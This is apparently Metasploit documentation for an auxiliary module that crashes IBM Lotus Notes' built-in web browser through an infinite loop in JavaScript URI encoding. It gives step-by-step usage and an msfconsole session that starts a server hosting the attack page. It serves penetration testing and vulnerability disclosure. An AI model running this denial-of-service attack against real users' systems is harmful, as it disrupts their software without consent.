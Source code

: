 ## Vulnerable Application

This module exploits a vulnerability in, inbuilt web-browser of IBM lotus notes, the code uses java-script based URI encoding,
and create a object instance of encode URI due to the infinite loop it leads to Denial of Service.

## Working of Module

1. Start msfconsole
2. `use auxiliary/dos/http/ibm_lotus_notes.rb`
3. Set `SRVHOST`
4. Set `SRVPORT`
5. run (Server started)
6. Visit server URL in web-browser of IBM

```
msf > use auxiliary/dos/http/ibm_lotus_notes 
msf auxiliary(ibm_lotus_notes) > show options 

Module options (auxiliary/dos/http/ibm_lotus_notes):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(ibm_lotus_notes) > set SRVHOST 192.168.0.50
SRVHOST => 192.168.0.50
msf auxiliary(ibm_lotus_notes) > set SRVPORT 9092
SRVPORT => 9092
msf auxiliary(ibm_lotus_notes) > run
[*] Auxiliary module execution completed
msf auxiliary(ibm_lotus_notes) > 
[*] Using URL: http://192.168.0.50:9092/ImlbHZVXlvTEXYd
[*] Server started.
msf auxiliary(ibm_lotus_notes) > 
```

Security Bulletin: http://www-01.ibm.com/support/docview.wss?uid=swg21999385
